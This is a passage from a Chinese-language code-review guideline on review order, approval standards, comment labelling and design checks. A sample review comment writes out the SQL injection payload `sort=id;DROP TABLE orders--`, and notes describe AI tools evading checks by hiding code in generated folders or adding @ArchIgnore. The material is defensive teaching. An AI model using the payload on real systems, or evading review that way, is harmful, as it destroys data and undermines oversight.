| `CR-REV-002` | 應該 | 審查者應先看整體與主要部分；發現會導致大幅重寫的設計問題時，應立即留下意見並暫停審查其餘部分，不必等全部看完 | 👁 審查紀錄 |

```markdown
<!-- ✅ CR-REV-002：在主要部分發現設計問題，立即回覆並暫停 -->
**issue (blocking):** `OrderCancelService` 在交易中同步呼叫付款服務退款
（`paymentClient.refund(...)` 位於 `@Transactional` 方法內）。

付款服務逾時會讓訂單交易持有鎖長達 30 秒，也無法處理「退款成功但訂單更新失敗」的情況。
建議依 ADR-0042 改為發布 `OrderCancelled` 事件。

這會影響 Service 與測試的大部分內容，我先暫停審查其餘檔案，等方向確定後再繼續。
```

#### 🔍 5.2 審查與驗證

- **自動檢查：** 無。
- **人工審查問題：**
  1. 我是否先看了測試？測試有沒有涵蓋我在實作中看到的每個分支？
  2. 我是否在細節上花了很多時間，卻沒有注意到整體設計的問題？
- **AI 常見錯誤：** AI 審查工具依檔案順序產生意見，常對細節（命名、格式）留下大量意見，卻漏掉跨檔案的設計問題。審查者不應以 AI 意見的順序作為自己的閱讀順序。

### 5.3 檢查什麼：依重要性排序

審查者的時間有限，應依問題的影響排序注意力。下表依 Google 的「What to look for in a code review」與 ISO/IEC 25010:2023 的品質特性整理：

| 順序 | 面向 | 問題 | ISO/IEC 25010 特性 | 本指引章節 |
| --- | --- | --- | --- | --- |
| 1 | 設計 | 這個變更屬於這裡嗎？和系統其他部分整合得好嗎？ | 可維護性（模組化） | 第 7 章 |
| 2 | 功能正確性 | 做了作者想做的事嗎？對使用者是正確的嗎？邊界、併發、錯誤處理？ | 功能適合性、可靠性 | 第 8 章 |
| 3 | 安全 | 授權、輸入驗證、秘密、個資？ | 安全性 | 第 11 章 |
| 4 | 測試 | 有適當的測試嗎？測試在程式壞掉時會失敗嗎？ | 可維護性（可測試性） | 第 10 章 |
| 5 | 複雜度 | 能更簡單嗎？其他人能快速理解嗎？有沒有過度設計？ | 可維護性（可分析性） | 第 9 章 |
| 6 | 效能 | 有 N+1、無上限的查詢、不必要的同步呼叫嗎？ | 效能效率 | 第 12 章 |
| 7 | 相容性與資料 | API、資料庫、設定是否向後相容？ | 相容性、彈性 | 第 13、15、16 章 |
| 8 | 命名與註解 | 名稱清楚嗎？註解說明「為什麼」而不是「做什麼」？ | 可維護性 | 第 9 章 |
| 9 | 一致性與風格 | 符合既有慣例嗎？（多數應由工具檢查） | 可維護性 | 第 17 章 |
| 10 | 文件 | 使用方式改變時，README、API 文件、操作手冊有更新嗎？ | 互動能力 | 第 16 章 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-REV-003` | 必須 | 審查者必須閱讀所有人工撰寫（包括 AI 協助產生後由人提交）的程式碼；只有確認為工具自動產生且未經手動修改的檔案（例如 OpenAPI Generator 輸出、鎖定檔）可以只確認產生方式與版本 | 👁 審查紀錄；🤖 `.gitattributes` 標記 `linguist-generated` 讓平台摺疊產生的檔案 |
| `CR-REV-004` | 應該 | 審查者應依本節的順序分配注意力；同一個 PR 中，若設計、正確性、安全與測試都沒有任何意見，卻有多則風格意見，應重新檢視是否遺漏了重要面向 | 👁 22.2 的意見類型分布 |

```text
# ✅ CR-REV-003：.gitattributes 標記自動產生的檔案，讓 GitHub 在 diff 中預設摺疊
src/main/java/com/example/order/api/generated/** linguist-generated=true
package-lock.json linguist-generated=true
```

```text
❌ CR-REV-003：把手寫程式碼放在「generated」目錄下逃避審查
src/main/java/com/example/order/api/generated/OrderApiDelegateImpl.java
→ 這個檔案是手寫的業務邏輯（OpenAPI Generator 只產生介面），卻被 .gitattributes 摺疊，審查者沒有展開。
```

```text
❌ CR-REV-004：意見全部集中在風格，遺漏了正確性與安全
PR #1060 feat(order): 匯出訂單 CSV（+260 −10）
@bob：nitpick：變數名稱 csvStr 建議改為 csvContent
@bob：nitpick：這裡可以用 String.join
@bob：nitpick：多了一個空行
@bob：nitpick：import 順序
@bob APPROVED
→ 同一個 PR 的 OrderExportService 沒有分頁上限（CR-PRF-002），也沒有處理 CSV 公式注入；
  四則意見全是工具可以檢查的風格問題，表格前四項（設計、正確性、安全、測試）沒有任何意見。
```

#### 🔍 5.3 審查與驗證

- **自動檢查：** 以 `git log --format='%H' -- 'src/**/generated/**'` 搭配產生器的設定檔，確認 generated 目錄的變更都伴隨產生器設定或版本的變更。
- **人工審查問題：**
  1. 我的意見是否涵蓋了表格前四項（設計、正確性、安全、測試）？
  2. 被摺疊或標為自動產生的檔案，是否真的是自動產生的？
- **AI 常見錯誤：** AI 常把自己寫的程式碼放進與自動產生程式碼相同的目錄，或在檔案開頭加上「Auto-generated」註解；審查者不能只憑註解判斷。

### 5.4 審查的節奏與時間

人的注意力有限。SmartBear 與 Cisco 的研究顯示：審查速度超過每小時 500 行時，缺陷發現率明顯下降；連續審查超過 60–90 分鐘後，效果也會下降。審查應該是**專注的工作**，不是在會議之間的空檔順手完成。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-REV-005` | 應該 | 單次審查不應超過 60–90 分鐘、400 行；更大的變更應分段審查並在每段結束時留下意見，或要求作者拆分 | 👁 自我管理；🤖 22.2 報表中「審查時間／變更行數」異常短的核准 |
| `CR-REV-006` | 應該 | 團隊應在每天安排固定的審查時段（例如上午與午後各一次），讓審查不打斷深度工作，也不會被無限延後 | 👁 團隊工作協議 |

```text
✅ CR-REV-006：團隊工作協議（寫在 docs/code-review.md）
- 每天 09:30–10:30、14:00–14:30 為審查時段，優先處理等待最久的 PR
- 審查時段外收到的請求，下一個審查時段處理（仍在 1 個工作天內，符合 CR-PRC-002）
- 單次審查超過 60 分鐘時休息，或先送出已完成的部分意見
```

```text
❌ CR-REV-005：用 4 分鐘核准 1,200 行的變更
10:02 PR #990（+1,180 −35）請求 @bob 審查
10:06 @bob APPROVED「LGTM」
→ 每小時約 18,000 行的速度，不可能真正讀過。
```

#### 🔍 5.4 審查與驗證

- **自動檢查：** 附錄 C.2 的報表計算「首次核准時間 − 審查請求時間」與變更行數，列出速度超過每分鐘 50 行的核准，交由技術主管抽查。
- **人工審查問題：**
  1. 我現在有足夠的時間與專注力審查這個 PR 嗎？
  2. 我是不是因為「作者很資深」或「已經有人核准」而加快速度？
- **AI 常見錯誤：** 有 AI 審查意見時，人類審查者容易只看 AI 標出的地方，而不讀其他部分（自動化偏誤，automation bias）。AI 沒有標出問題不代表沒有問題。

### 5.5 在本機驗證

只讀 diff 有其極限：無法執行程式、無法看到變更周邊的程式碼、無法驗證效能。高風險變更與 UI 變更應在本機或預覽環境實際執行。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-REV-007` | 應該 | 高風險變更（3.4）與 UI 變更，審查者應在本機或預覽環境執行並驗證主要情境，並在核准意見中說明驗證了什麼 | 👁 核准意見內容 |

```bash
# ✅ CR-REV-007：把 PR／MR 取回本機驗證
# GitHub
gh pr checkout 1024
./mvnw -B verify                       # 執行完整測試
./mvnw spring-boot:run -Dspring-boot.run.profiles=local &
curl -s -X POST localhost:8080/api/orders/42/cancel \
  -H 'Content-Type: application/json' -d '{"reason":"客戶重複下單"}' | jq .

# GitLab
glab mr checkout 345
./mvnw -B verify
```

```markdown
<!-- ✅ CR-REV-007：核准時說明驗證了什麼 -->
**Approve**

已在本機驗證：
- `./mvnw verify` 通過（含 OrderCancelApiIT）
- 手動以 curl 測試：正常取消、空白原因（400）、已出貨訂單（409）三種情況，回應符合 API 文件
- 未驗證：與付款服務的整合（staging 才有），請部署 staging 後再確認一次退款事件
```

#### 🔍 5.5 審查與驗證

- **自動檢查：** 預覽環境（GitHub Environments／GitLab Review Apps）可以讓審查者不必在本機建置；確認預覽環境使用的是 PR 最新的提交。
- **人工審查問題：**
  1. 核准意見有沒有說明驗證範圍與「未驗證」的部分？
  2. 執行時有沒有發現 diff 看不出的問題（例如啟動失敗、設定遺漏）？
- **AI 常見錯誤：** AI 審查工具宣稱「已驗證」時，通常只是靜態閱讀程式碼；即使具備代理能力（例如 Copilot code review 的完整專案脈絡收集、Claude Code Code Review 的驗證步驟），也不一定執行了測試或程式。看到 AI 宣稱「測試通過」時，以 CI 紀錄為準。

### 5.6 核准標準

Google 的工程實務對核准標準的描述是：**當變更確實改善了系統整體的程式碼健康度，即使它不完美，審查者也應該核准**。世界上沒有完美的程式碼，只有更好的程式碼。審查者不應要求作者把每個細節都修到自己滿意才核准，但也絕不能核准會讓程式碼健康度下降的變更。

| 平台動作 | 何時使用 | 對作者的意義 |
| --- | --- | --- |
| **Approve** | 沒有阻擋性問題；剩下的只有非阻擋建議 | 可以合併（建議先處理非阻擋建議，但不強制） |
| **Comment** | 有疑問需要釐清；或只審查了部分 | 還不能判斷，請回覆 |
| **Request changes**（GitHub）／不核准並留下阻擋性意見（GitLab） | 有必須修正的問題 | 修正前不能合併 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-REV-008` | 必須 | 只要變更改善了整體程式碼健康度、沒有阻擋性問題，審查者就應核准；不得因個人偏好、不影響正確性的風格差異或「如果是我會這樣寫」而拒絕核准 | 👁 審查紀錄；👁 21.1 的爭議處理 |
| `CR-REV-009` | 必須 | 下列情況必須要求修改，不得核准：違反本指引或其他指引的「必須」規則；功能不符合需求；缺少行為變更的測試；引入安全弱點；降低整體程式碼健康度 | 👁 審查紀錄 |
| `CR-REV-010` | 不應該 | 不應以「之後再改」為由核准會降低程式碼健康度的變更；若接受延後處理，必須有議題連結與負責人 | 👁 審查紀錄 |

```markdown
<!-- ✅ CR-REV-008：沒有阻擋性問題就核准，同時留下非阻擋建議 -->
**Approve**

邏輯與測試都沒問題，可以合併。

**suggestion (non-blocking):** `CancelReasonValidator` 和 `RefundReasonValidator` 幾乎相同，
之後可以考慮合併；不影響這次合併。
```

```markdown
<!-- ✅ CR-REV-009：要求修改時列出阻擋的理由與依據 -->
**Request changes**

有兩個阻擋性問題，修正後我會在今天下午重新審查：
1. **issue (blocking):** 退款金額沒有上限，可以大於原訂單金額（需求 #842 的驗收條件 3）。
2. **issue (blocking):** `refundAmount` 的計算沒有任何測試（CR-TST-001）。

其餘兩則是 non-blocking 建議，可以之後處理。
```

```text
❌ CR-REV-008：因個人偏好阻擋合併
@bob [Request changes]：我比較喜歡用 for 迴圈，請把這裡的 stream 改掉。
→ 兩種寫法都正確、可讀，團隊規範沒有規定；這是偏好，應以 nit 或 non-blocking 標示，不應阻擋。
```

```text
❌ CR-REV-010：以「之後再改」核准健康度下降的變更
@bob APPROVED：「這個 3,000 行的 God class 之後再拆，先合併。」
→ 沒有議題、沒有負責人、沒有期限；「之後」通常不會發生。
```

#### 🔍 5.6 審查與驗證

- **自動檢查：** 無。
- **人工審查問題：**
  1. 我的「Request changes」理由是本指引的規則、需求或正確性，還是個人偏好？
  2. 合併這個變更後，程式碼整體是變好還是變差？
  3. 接受延後處理的事項，是否都有議題與負責人？
- **AI 常見錯誤：** AI 審查工具會對幾乎每個 PR 都提出建議，而且不區分阻擋與非阻擋。人類審查者不應把 AI 的每一則建議都當成合併前必須處理的項目（見 19.4）。

## 6. 審查意見的撰寫與溝通

### 6.1 意見分級：讓作者知道哪些必須處理

審查意見最常見的誤解是「這則意見是必須修正，還是只是建議？」作者不確定時，通常會全部照改（浪費時間，也可能改壞），或全部忽略（漏掉真正的問題）。每則意見都必須讓作者一眼看出它的分量。

本指引採用 [Conventional Comments](https://conventionalcomments.org/) 的格式：

```text
<標籤> [(裝飾)]: <主旨>

[討論：為什麼、建議怎麼做、參考資料]
```

| 標籤 | 意義 | 預設是否阻擋 | 對應 v2.0 的分級 |
| --- | --- | --- | --- |
| `issue` | 具體的問題：錯誤、弱點、違反規則 | 阻擋（加 `(blocking)`） | 🔴 Must Fix |
| `todo` | 小但必要的修改（例如漏改的文件） | 阻擋 | 🟡 Should Fix |
| `suggestion` | 改善建議，說明為什麼更好 | 視裝飾而定 | 🟡 Should Fix／🔵 Consider |
| `question` | 不確定是否有問題，需要作者說明 | 不阻擋，但需要回覆 | 💬 Question |
| `nitpick` | 微小、偏好性的細節 | 不阻擋 | 📝 Nitpick |
| `thought` | 審查時想到的點子，不要求動作 | 不阻擋 | — |
| `note` | 提醒讀者注意的資訊 | 永遠不阻擋 | — |
| `praise` | 值得肯定的地方 | 不阻擋 | — |
| `chore` | 合併前必須完成的流程性工作（例如更新變更紀錄） | 阻擋 | — |

裝飾（decorations）以括號標在標籤後面，常用的有 `(blocking)`、`(non-blocking)` 與 `(if-minor)`（只有在修改很小時才需要處理）。Google 的工程實務使用類似的前綴：`Nit:`（小細節）、`Optional`／`Consider:`（可選）、`FYI:`（僅供參考）。團隊選定一種格式後應全程一致。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-CMT-001` | 必須 | 每則審查意見都必須能讓作者判斷是否阻擋合併：以 Conventional Comments 的標籤與裝飾（或團隊約定的等效前綴）標示 | 👁 審查紀錄；🤖 附錄 C.5 的意見格式統計 |
| `CR-CMT-002` | 應該 | 團隊應採用 Conventional Comments 作為意見格式，並在審查政策中列出使用的標籤；GitHub 的「Request changes」與阻擋性意見應一致（有 `(blocking)` 意見時才使用 Request changes） | 👁 審查政策文件 |

```markdown
<!-- ✅ CR-CMT-001：每則意見都標示分量 -->
**issue (blocking):** 已出貨（SHIPPED）的訂單也能被取消。
需求 #842 寫明「出貨後只能走退貨流程」。請在 `cancel()` 開頭檢查狀態，並補一個測試。

**suggestion (non-blocking):** `reason` 的長度檢查可以移到 DTO 的 `@Size(max = 200)`，
讓 Controller 層統一回傳 400，Service 就不必重複檢查。

**nitpick:** `cancelOrderById` 和類別內其他方法的命名風格（`cancel`、`refund`）不一致。

**praise:** 測試涵蓋了「同一張訂單同時被取消兩次」的情況，很細心！
```

```text
❌ CR-CMT-001：作者無法判斷哪些必須處理
@bob：這裡怪怪的。
@bob：可以用 Optional？
@bob：狀態沒檢查。
@bob：命名可以再想想。
→ 「狀態沒檢查」是必須修正的錯誤，但和其他三則看起來一樣重要。
```

#### 🔍 6.1 審查與驗證

- **自動檢查：** 附錄 C.5 的腳本統計一段期間內審查意見以 Conventional Comments 標籤開頭的比例，作為導入成效的參考。
- **人工審查問題：**
  1. 作者讀完所有意見後，能列出「合併前必須處理」的清單嗎？
  2. 我按下「Request changes」時，是否至少有一則 `(blocking)` 的意見？
- **AI 常見錯誤：** AI 審查工具的分級不一定和團隊一致：Claude Code Code Review 以 🔴 Important、🟡 Nit、🟣 Pre-existing 分級；GitHub Copilot code review 不區分阻擋與非阻擋。導入時應在 `REVIEW.md`、`copilot-instructions.md` 或 `mr-review-instructions.yaml` 說明團隊的分級定義（見 19.3）。

### 6.2 好意見的結構

一則好的審查意見包含三個部分：**問題是什麼**（具體到哪一行、什麼情況）、**為什麼是問題**（後果、違反的規則或需求）、**建議怎麼做**（方向或程式碼）。少了「為什麼」，作者只能照做而學不到東西，也無法判斷建議是否適用；少了「建議」，作者可能花很多時間猜審查者的意思。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-CMT-003` | 必須 | 阻擋性意見必須說明「為什麼是問題」：具體的後果、違反的規則編號或需求；不得只寫「這樣不對」「請修改」 | 👁 審查紀錄 |
| `CR-CMT-004` | 應該 | 修改範圍小且明確時，應使用平台的建議修改功能（GitHub 與 GitLab 的 `suggestion` 區塊），讓作者能直接套用 | 👁 審查紀錄 |

````markdown
<!-- ✅ CR-CMT-003、CR-CMT-004：問題＋為什麼＋建議（GitHub 的 suggestion 區塊，作者可一鍵套用） -->
**issue (blocking):** 排序欄位直接串接到 SQL，會造成 SQL 注入（違反 SCG-SQL-003）。
攻擊者可以傳入 `sort=id;DROP TABLE orders--`。排序欄位必須以允許清單對應：

```suggestion
        String column = SORTABLE_COLUMNS.getOrDefault(sort, "created_at");
        String sql = "SELECT id, status, amount FROM orders ORDER BY " + column;
```

`SORTABLE_COLUMNS` 可以定義成 `Map.of("date", "created_at", "amount", "amount")`。
````

````markdown
<!-- ✅ CR-CMT-004：GitLab 的建議修改語法，-0+1 表示取代目前這一行與下一行 -->
**suggestion (non-blocking):** 用 `Duration` 表示逾時，避免單位混淆。

```suggestion:-0+1
    private static final Duration PAYMENT_TIMEOUT = Duration.ofSeconds(3);
    private static final int MAX_RETRY = 2;
```
````

```text
❌ CR-CMT-003：沒有說明為什麼
@bob（Request changes）：這段不行，請重寫。
@bob：不要用字串串接。
→ 作者不知道問題在哪裡、該改成什麼；若作者不同意，也無從討論。
```

#### 🔍 6.2 審查與驗證

- **自動檢查：** 無。
- **人工審查問題：**
  1. 我的阻擋性意見有沒有寫出後果或規則編號？
  2. 作者照我的建議修改後，問題真的會解決嗎？我的建議本身有沒有錯？
- **AI 常見錯誤：** AI 審查工具產生的 `suggestion` 區塊可以一鍵套用，但它可能改錯縮排、遺漏 `import` 或引用不存在的方法。作者套用 AI 建議後，必須重新執行 CI；審查者不應因為「是 AI 建議的修改」而不再檢查。

### 6.3 語氣與溝通

審查意見是寫給同事看的，不是寫給程式碼看的。冷淡或帶有批判的意見會讓作者防衛、拖慢審查，長期下來也會讓團隊成員避免提交需要審查的變更。好的審查意見**針對程式碼，不針對人**；**以提問與建議代替命令**；**肯定做得好的地方**。

| 原則 | ❌ 避免 | ✅ 改寫 |
| --- | --- | --- |
| 針對程式碼，不針對人 | 「你又忘了檢查 null」 | 「`findById` 回傳空值時這裡會拋出 NPE，可以加上 `orElseThrow`」 |
| 說明而不是命令 | 「改成批次查詢」 | 「迴圈中每次都查詢資料庫，100 筆訂單會有 101 次查詢；改成 `findAllById` 可以一次取回」 |
| 不確定時用提問 | 「這裡錯了」 | 「這裡的 `>=` 是刻意的嗎？我以為邊界值 100 應該被拒絕」 |
| 避免誇大與諷刺 | 「這是我看過最複雜的方法」 | 「這個方法有 6 層巢狀，可以考慮把驗證抽出來」 |
| 肯定好的做法 | （只寫問題） | 「praise：用 `@ParameterizedTest` 涵蓋所有狀態轉換，很清楚」 |
| 用「我們」描述共同的程式碼 | 「你的程式碼」 | 「我們這裡的錯誤處理」 |

作者回應意見時也一樣：**感謝意見、針對內容回應、不同意時提出證據**（4.6）。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-CMT-006` | 必須 | 審查意見只能針對程式碼與設計，不得針對作者個人；不得使用貶抑、諷刺或羞辱的字眼。違反時由技術主管依 21.2 處理 | 👁 審查紀錄；👁 團隊回饋 |
| `CR-CMT-007` | 應該 | 審查者在每次完整審查中，應至少留下一則對做得好的地方的具體肯定（`praise`），特別是對新進成員 | 👁 審查紀錄 |

```text
✅ CR-CMT-006：針對程式碼，說明後果，提出建議
question: 這裡在迴圈中呼叫 `customerClient.find(id)`，訂單多的時候會有大量 HTTP 呼叫。
客戶服務有提供 `findAll(ids)` 批次 API，改用它可以嗎？還是有我不知道的限制？
```

```markdown
<!-- ✅ CR-CMT-007：具體的肯定，說明好在哪裡，讓作者（特別是新進成員）知道要保持什麼 -->
**praise:** `OrderTest#reasonLengthBoundary` 同時測了 200 與 201 字，剛好卡在邊界上，
這正是 CR-COR-001 要的測試方式。之後其他欄位的長度限制也可以照這個寫法。
```

```text
❌ CR-CMT-006：針對人、帶有諷刺
@bob：你是不是沒寫過 Java？這種迴圈呼叫 API 的寫法連實習生都知道不行。
```

#### 🔍 6.3 審查與驗證

- **自動檢查：** 無。可以在季度回顧（22.3）以匿名問卷詢問「審查意見讓你感到被尊重嗎？」。
- **人工審查問題：**
  1. 如果這則意見是寫給我的，我會有什麼感受？
  2. 我是否只寫了問題，完全沒有肯定？
- **AI 常見錯誤：** 用 AI 改寫意見時，AI 有時會把阻擋性問題改寫得過度委婉（「或許可以考慮……」），讓作者誤以為是非阻擋建議。語氣可以友善，但嚴重度標籤不能被淡化。

### 6.4 意見的記錄與追蹤

NIST SSDF PW.7.2 要求「記錄並分類所有發現的問題與建議的修正」。審查中發現的問題有三種去向：在本 PR 修正、延後到其他 PR 處理、或判定為不需處理。每一種都必須留下紀錄。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-CMT-005` | 必須 | 審查中發現但不在本 PR 修正的問題，必須建立議題（issue）並在原意見中附上連結；安全相關的問題必須標記安全標籤並依弱點處理時限追蹤，不得只留在已關閉的 PR 中 | 👁 審查紀錄；🤖 安全標籤的議題報表 |

```markdown
<!-- ✅ CR-CMT-005：延後處理的問題轉為議題並互相連結 -->
**issue (non-blocking):** 既有的 `OrderExportService` 匯出 CSV 時沒有處理公式注入
（儲存格以 `=`、`+`、`-`、`@` 開頭時 Excel 會執行）。不是這個 PR 引入的，但我在審查時發現。

@kevin：同意不在本 PR 處理，已開 #975（標籤：security、priority:high），指派給我，預計下個迭代完成。
```

```text
❌ CR-CMT-005：問題只留在 PR 中，合併後就被遺忘
@amy：既有程式碼也有 SQL 注入（ReportDao 第 88 行），之後要修。
@kevin：好。
[PR merged]
→ 沒有議題、沒有負責人；六個月後的滲透測試才再次發現同一個問題。
```

#### 🔍 6.4 審查與驗證

- **自動檢查：** 定期以 `gh issue list --label security --state open` 或 GitLab 的議題篩選列出未關閉的安全議題，確認都有負責人與期限。
- **人工審查問題：**
  1. 合併前，所有「之後再處理」的意見都有議題連結嗎？
  2. 被判定為「不需處理」的意見，是否記錄了理由？
- **AI 常見錯誤：** AI 審查工具（例如 Claude Code Code Review 的 🟣 Pre-existing）會指出既有程式碼的問題。這些發現不應阻擋本 PR，但也不應被忽略：應由人確認後轉為議題。

## 7. 審查重點：設計與架構

第 7–16 章是審查的「檢查重點」。每章先說明這個面向為什麼重要，再列出規則、正確與錯誤的範例，最後是審查問題。章節中的 Java 範例都屬於同一個訂單範例專案（套件 `com.example.cr.order`），已一起編譯並執行測試（見附錄 F.3）。

### 7.1 設計審查與架構決策紀錄

設計問題在 PR 階段才被發現，代價最高：程式碼已經寫完、測試已經寫好，改方向等於重做。Google 的審查實務把「設計」列為審查的第一項，但更好的做法是**在寫程式之前**先審查設計。新模組、跨服務的介面、資料模型的重大變更、引入新技術，都應該先以架構決策紀錄（Architecture Decision Record，ADR）或簡短的設計文件取得共識，PR 只審查「實作是否符合設計」。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-DES-001` | 必須 | 新增模組或服務、改變跨服務介面、引入新的框架或基礎設施、重大的資料模型變更，必須先完成設計審查（ADR 或設計文件獲核准），PR 描述中必須連結該文件 | 👁 PR 描述；🤖 CI 檢查 `docs/adr/` 有新增檔案時 PR 描述含 ADR 編號 |
| `CR-DES-002` | 必須 | 審查者必須確認實作符合已核准的設計；實作與設計不一致時，應先更新設計文件並重新取得同意，或修改實作 | 👁 程式碼審查 |

```markdown
<!-- ✅ CR-DES-001：docs/adr/0042-order-cancel-async-refund.md（精簡的 ADR 格式） -->
# ADR-0042 訂單取消改為非同步退款

- 狀態：已核准（2026-09-30 架構會議，核准人：架構師 林小芬）
- 背景：取消 API 需在 2 秒內回應；付款服務退款的 P99 為 1.8 秒，且偶爾逾時。
- 決策：取消訂單時只更新訂單狀態並在同一交易寫入 outbox，由 outbox 轉送 `OrderCancelled` 事件；付款服務訂閱後退款。
- 後果：
  - 取消 API 不再依賴付款服務的可用性。
  - 退款變成最終一致；需要補償流程處理退款失敗（另開 #968）。
  - 客服後台需顯示「退款處理中」狀態。
- 替代方案：同步呼叫付款服務（不符合延遲要求）；兩階段提交（付款服務不支援）。
```

```markdown
<!-- ✅ CR-DES-002：審查者發現實作與已核准的 ADR 不一致 -->
**issue (blocking):** ADR-0042 的決策是「取消時在同一交易寫入 outbox，由 outbox 轉送事件」，
`OrderCancelService` 發布 `OrderCancelledEvent` 的部分符合設計；但新增的 `RefundRequestListener`
收到事件後直接以 HTTP 呼叫付款服務退款，取消 API 又重新依賴付款服務的可用性，
與 ADR 的「後果」第一點矛盾。請改為由監聽器寫入 outbox 資料表，或先更新 ADR 並取得架構會議同意。
```

```text
❌ CR-DES-001：在 PR 中第一次提出架構變更
PR #1001 feat: 改用 Kafka 傳遞訂單事件（+2,400 行）
描述：「我覺得 Kafka 比較好，所以把 RabbitMQ 換掉了。」
→ 引入新的基礎設施需要維運、監控、成本與團隊技能的評估；應先提出 ADR，而不是讓審查者在 PR 中決定架構。
```

#### 🔍 7.1 審查與驗證

- **自動檢查：** CI 可檢查新增 `pom.xml` 相依套件或新的 `docker-compose` 服務時，PR 描述是否含 `ADR-` 編號（附錄 C.4 可擴充）。
- **人工審查問題：**
  1. 這個 PR 是否引入了新的模組、服務、框架或跨服務呼叫？有對應的 ADR 嗎？
  2. 實作和 ADR 的「決策」與「後果」一致嗎？例如 ADR 說「同一交易寫入 outbox」，程式碼是否真的在同一交易內？
- **AI 常見錯誤：** AI 代理被要求「實作某功能」時，常自行引入新的函式庫或架構模式（例如加入新的快取框架、改用另一種 HTTP 用戶端），而沒有任何設計討論。審查者應特別注意 `pom.xml`、`package.json` 的新增相依。

### 7.2 職責與模組邊界

設計問題最常見的徵兆是**邊界被跨越**：Controller 直接存取 Repository、領域物件依賴 Web 框架、一個模組讀取另一個模組的資料表。這些問題在單一 PR 中看起來無害（「只是少寫一層」），累積起來就會讓系統變成無法修改的大泥球。

依賴方向的規則最好寫成測試，讓 CI 檢查，審查者只需要確認測試沒有被削弱。[ArchUnit](https://www.archunit.org/) 可以把分層規則寫成 JUnit 測試：

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-DES-003` | 必須 | 分層與模組依賴的規則必須以架構測試（例如 ArchUnit）表達並在 CI 執行；審查者必須確認 PR 沒有放寬或刪除架構測試，除非有對應的 ADR | 🧪 ArchUnit 測試；👁 審查架構測試的變更 |
| `CR-DES-004` | 必須 | 每個類別與方法只有一個明確的職責；Controller 只處理 HTTP 轉換，業務規則放在 Service 或領域物件，資料存取只透過 Repository | 🧪 ArchUnit；👁 程式碼審查 |

```java
// ✅ CR-DES-003：以 ArchUnit 定義分層規則，違反時 CI 失敗
package com.example.cr.order;

import static com.tngtech.archunit.library.Architectures.layeredArchitecture;

import com.tngtech.archunit.core.importer.ImportOption;
import com.tngtech.archunit.junit.AnalyzeClasses;
import com.tngtech.archunit.junit.ArchTest;
import com.tngtech.archunit.lang.ArchRule;

@AnalyzeClasses(packages = "com.example.cr.order", importOptions = ImportOption.DoNotIncludeTests.class)
class LayerDependencyTest {

    @ArchTest
    static final ArchRule layers = layeredArchitecture()
            .consideringOnlyDependenciesInLayers()
            .layer("Web").definedBy("..web..")
            .layer("Service").definedBy("..service..")
            .layer("Domain").definedBy("..domain..")
            .layer("Persistence").definedBy("..persistence..")
            .whereLayer("Web").mayNotBeAccessedByAnyLayer()
            .whereLayer("Service").mayOnlyBeAccessedByLayers("Web")
            .whereLayer("Persistence").mayOnlyBeAccessedByLayers("Service");
}
```

```java
// ❌ CR-DES-004：Controller 直接存取 Repository，並在其中實作業務規則（狀態檢查）
@PostMapping("/api/orders/{id}/cancel")
public ResponseEntity<Void> cancel(@PathVariable long id, @RequestBody CancelRequest request) {
    Order order = orderRepository.findById(id).orElseThrow();
    if (order.getStatus() == OrderStatus.SHIPPED) {          // 業務規則散落在 Web 層
        return ResponseEntity.status(409).build();
    }
    order.setStatus(OrderStatus.CANCELLED);                  // 繞過領域物件的不變條件
    orderRepository.save(order);
    return ResponseEntity.noContent().build();
}
```

（片段：只截取 Controller 方法。正確寫法見 8.1 的 `Order#cancel` 與 8.3 的 `OrderCancelService`。）

#### 🔍 7.2 審查與驗證

- **自動檢查：** `LayerDependencyTest` 在 `./mvnw verify` 中執行；PR 修改 `src/test/**/*Architecture*`、`*LayerDependency*` 時，應由 CODEOWNERS 要求架構師審查。
- **人工審查問題：**
  1. Controller 裡有沒有 `if` 判斷業務狀態？Service 裡有沒有 `HttpServletRequest`、`ResponseEntity`？
  2. 新增的類別放在正確的套件嗎？（放錯套件會讓架構測試「看不到」它）
  3. PR 是否修改了架構測試的規則或 `@ArchIgnore`？
- **AI 常見錯誤：** AI 為了「讓程式最短」常把邏輯直接寫在 Controller，或為了讓架構測試通過而加上 `@ArchIgnore`、把類別移到不受規則約束的套件。看到架構測試被修改，一律要求說明。

### 7.3 簡單與適度：避免過度設計與重複造輪子

Google 的審查實務特別提醒審查者注意**過度設計**（over-engineering）：為了「未來可能需要」而加入的抽象層、設定選項與擴充點，會讓程式更難理解，而那個未來常常不會到來。另一個常見問題是**重複造輪子**：專案或框架已經有現成的功能，作者卻自己實作了一次。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-DES-005` | 應該 | 只為目前的需求設計；沒有第二個實作的介面、沒有使用者的設定選項、「預留給未來」的參數，應在審查時要求移除 | 👁 程式碼審查 |
| `CR-DES-006` | 應該 | 優先使用專案既有的工具類別、框架與標準函式庫；重新實作既有功能（日期處理、重試、驗證、JSON 處理）時必須說明理由 | 👁 程式碼審查；🤖 ArchUnit 禁止使用特定類別 |

```java
// ❌ CR-DES-005：只有一種取消原因驗證，卻建立了策略介面、工廠與設定開關
public interface CancelReasonValidationStrategy {
    boolean validate(String reason);
}

public class DefaultCancelReasonValidationStrategy implements CancelReasonValidationStrategy {
    @Override
    public boolean validate(String reason) {
        return reason != null && !reason.isBlank() && reason.length() <= 200;
    }
}

public class CancelReasonValidationStrategyFactory {
    public CancelReasonValidationStrategy create(String type) {   // type 永遠是 "default"
        return new DefaultCancelReasonValidationStrategy();
    }
}
```

（片段：三個類別合併顯示。正確做法是 8.2 的 `CancelRequest` 以 Bean Validation 的 `@NotBlank`、`@Size(max = 200)` 宣告。）

```java
// ❌ CR-DES-006：自己實作重試，沒有退避、沒有上限的例外分類，也沒有處理中斷
